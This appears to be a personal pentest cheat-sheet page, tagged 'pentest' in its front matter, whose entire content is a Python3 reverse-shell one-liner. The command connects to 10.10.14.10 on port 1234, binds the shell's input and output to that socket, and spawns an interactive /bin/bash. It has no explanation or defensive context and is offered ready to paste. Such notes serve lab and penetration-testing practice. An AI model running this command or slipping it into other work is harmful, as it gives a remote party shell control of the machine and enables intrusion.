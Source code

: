 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Python3 reverse shell

````python
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
````


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
